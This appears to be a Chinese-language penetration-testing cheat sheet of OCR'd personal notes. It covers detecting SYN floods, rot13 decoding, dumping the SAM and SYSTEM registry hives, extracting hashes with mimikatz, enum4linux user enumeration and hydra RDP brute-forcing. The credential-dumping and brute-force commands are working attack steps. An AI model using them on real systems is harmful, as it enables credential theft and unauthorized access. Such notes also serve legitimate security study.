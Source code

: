 **hping3洪水攻击**

![微信截图_20220709090913.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image31.png){width="5.760416666666667in"
height="2.4785181539807524in"}

netstat -antup \| 80

看见大量的SYN_RECV那就是被人洪水攻击了

过了路由地址ip就不能伪造

**基操：**

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image32.png){width="5.760416666666667in"
height="2.514808617672791in"}

tr解码rot13

echo -n \"rot13加密的字符串\"\|tr \'A-Za-z\' \'N-ZA-Mn-za-m\'
//这里n正好是26字母的第14位

run制定rhosts

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image33.png){width="5.760416666666667in"
height="1.0656769466316711in"}

**下载sam文件数据**

下载system与sam文件的方法

利用注册表(需要administrator权限)

获取当前系统的SAM数据库文件，在另一系统下进行读取，从 sam
中提取目标系统本地用户密码 hash 需要管理员权限。

reg save HKLM\\SYSTEM system.hive

reg save HKLM\\SAM sam.hive

**解密sam文件数据**

使用mimikatz，参数为刚刚下载下来的system与sam文件的路径：

lsadump::sam /sam:sam.hiv /system:system.hiv

nginx日志默认地址 /var/log/nginx/access.log

apache日志默认地址
/usr/local/[apache](https://so.csdn.net/so/search?q=apache&spm=1001.2101.3001.7020)/logs/access_log

enum4linux -a 192.168.164.192

列举用户

hydra -l administrator -P /usr/share/wordlists/fasttrack.txt -M s.txt
rdp(九头蛇指定ip爆破)

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image34.png){width="5.760416666666667in"
height="2.3671937882764653in"}
